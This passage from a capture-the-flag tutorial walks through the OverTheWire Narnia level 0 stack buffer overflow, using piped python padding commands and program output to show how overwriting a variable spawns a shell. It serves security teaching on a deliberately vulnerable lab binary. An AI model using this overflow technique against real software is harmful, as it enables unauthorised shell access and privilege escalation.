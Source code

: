 The program receives an input from the user and saves it in a buffer variable of size 20. Then, it checks if the *val* is equal to a different value of what it was declared:
```c
if(val==0xdeadbeef)
 system("/bin/sh");
```
Since *val* obviously didn't change anywhere in the program, nothing happens, and the program exits normally.

However, if somehow we could change the value of *val* to [0xdeadbeef], the program will give us a privileged shell!


[0xdeadbeef]: http://en.wikipedia.org/wiki/Hexspeak

Let's think about the memory Stack. Just like in a pile of books, the local variables are pushed in the order that they are created. In the case above, *val* is pushed before *buf*, so *val* is in a higher memory address:
```c
 long val=0x41414141;
 char buf[20];
```

What happens if the input is larger than 20 bytes? In this case, there are no bounds checking, and the input overflows the variable *buf*, occupying the following space in the Stack: *val*. This is a classic case of **Stack Overflow**!



### Step 2: Visualizing the Overflow


The plan is to overflow *buf* with 20+4 bytes so that the last four bytes overwrites *val* with ```0xdeadbeef```.

Let's see how *val* is filled when we overflow byte by byte:


```sh
narnia0@melinda:/narnia$ python -c 'print "B"*24'
BBBBBBBBBBBBBBBBBBBBBBBB

narnia0@melinda:/narnia$ (python -c 'print "B"*19') | ./narnia0
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: buf: BBBBBBBBBBBBBBBBBBB
val: 0x41414141
WAY OFF!!!!


narnia0@melinda:/narnia$ (python -c 'print "B"*20') | ./narnia0
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: buf: BBBBBBBBBBBBBBBBBBBB
val: 0x41414100
WAY OFF!!!!

narnia0@melinda:/narnia$ (python -c 'print "B"*21') | ./narnia0
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: buf: BBBBBBBBBBBBBBBBBBBBB
val: 0x41410042
WAY OFF!!!!

narnia0@melinda:/narnia$ (python -c 'print "B"*22') | ./narnia0
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: buf: BBBBBBBBBBBBBBBBBBBBBB
val: 0x41004242
WAY OFF!!!!

narnia0@melinda:/narnia$ (python -c 'print "B"*23') | ./narnia0
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: buf: BBBBBBBBBBBBBBBBBBBBBBB
val: 0x00424242
```

[inputs with no bounds checking]: http://en.wikipedia.org/wiki/Bounds_checking
[buffer overflow]: http://en.wikipedia.org/wiki/Buffer_overflow
[process's virtual memory]: http://en.wikipedia.org/wiki/Virtual_memory
[physical memory]: http://en.wikipedia.org/wiki/Computer_memory
[virtual memory space]: http://en.wikipedia.org/wiki/Virtual_memory
[direction of which the Stack grows]: https://stackoverflow.com/questions/664744/what-is-the-direction-of-stack-growth-in-most-modern-systems
[segmentation violation]: http://en.wikipedia.org/wiki/Segmentation_fault
[Heap]: http://en.wikipedia.org/wiki/Heap_(data_structure)
[Python & Algorithms]: https://github.com/mvonsteinkirch/Python-and-Algorithms-and-Data-Structures/blob/master/book/book_second_edition.pdf
[here are some examples]: https://github.com/mvonsteinkirch/Python-and-Algorithms-and-Data-Structures/tree/master/src/abstract_structures/Stacks
[WarGames]: http://overthewire.org/wargames
[Narnia]: http://overthewire.org/wargames/narnia
[Aleph One]: http://en.wikipedia.org/wiki/Elias_Levy
[Phrack magazine]: http://www.phrack.org/
[Smashing the Stack for Fun or Profit]: http://insecure.org/stf/smashStack.html
[Peter Jay Salzman]: http://www.dirac.org/linux/gdb/
[this cheat sheet]: http://darkdust.net/files/GDB%20Cheat%20Sheet.pdf
[nice Assembly guide]: http://www.drpaulcarter.com/pcasm/
[run a binary and read its C code]: http://www.thegeekstuff.com/2011/10/c-program-to-an-executable/
[little-endian]: http://en.wikipedia.org/wiki/Endianness
[x86]: http://en.wikipedia.org/wiki/X86
[ASCII]: http://en.wikipedia.org/wiki/ASCII
[hexadecimal representation]: http://en.wikipedia.org/wiki/Hexadecimal
[Shellshock guide]: http://singularity.miavonsteinkirch.com/understanding-the-shellshock-vulnerability.html
[very introductory guide]: http://www.thegeekstuff.com/2010/03/debug-c-program-using-gdb/
[comprehensive guide]: http://www.dirac.org/linux/gdb/
[Appendix A]: http://insecure.org/stf/smashStack.html
[/dev/null]: http://en.wikipedia.org/wiki/Null_device
[ASLR]: http://en.wikipedia.org/wiki/Address_space_layout_randomization
[NOPs]: http://en.wikipedia.org/wiki/NOP